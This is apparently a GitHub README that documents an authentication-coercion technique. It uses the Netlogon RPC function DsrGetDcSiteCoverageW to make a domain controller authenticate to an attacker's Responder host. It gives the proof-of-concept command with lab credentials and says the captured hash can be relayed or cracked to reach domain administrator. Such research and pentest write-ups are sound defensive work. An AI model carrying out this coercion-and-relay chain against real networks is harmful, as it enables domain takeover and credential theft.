 # MS-NRPC - Remote call to DsrGetDcSiteCoverageW (opnum 38)

## Summary

 - **Protocol**: [[MS-NRPC]: Netlogon Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f)

 - **Protocol UUID**: 12345678-1234-abcd-ef00-01234567cffb

 - **Protocol version**: 1.0

 - **SMB Named pipe**: `\PIPE\NETLOGON`

 - **Function name**: [`DsrGetDcSiteCoverageW`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/6d26f254-b125-4f0f-8441-1ca66cc93b2f)

 - **Function operation number**: `38`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\NETLOGON` and bind to the desired [`MS-NRPC`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f) protocol (with uuid `12345678-1234-abcd-ef00-01234567cffb` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-NRPC`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\NETLOGON` This pipe is connected to the protocol [[MS-NRPC]: Netlogon Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f) and allows to call RPC functions of this protocol. We will then call the remote [`DsrGetDcSiteCoverageW`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/6d26f254-b125-4f0f-8441-1ca66cc93b2f) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
DsrGetDcSiteCoverageW('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
NET_API_STATUS DsrGetDcSiteCoverageW(
   [in, unique, string] LOGONSRV_HANDLE ServerName,
   [out] PNL_SITE_NAME_ARRAY* SiteNames
 );
```

## References

 - Documentation of protocol [MS-NRPC]: Netlogon Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f

 - Documentation of function `DsrGetDcSiteCoverageW`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/6d26f254-b125-4f0f-8441-1ca66cc93b2f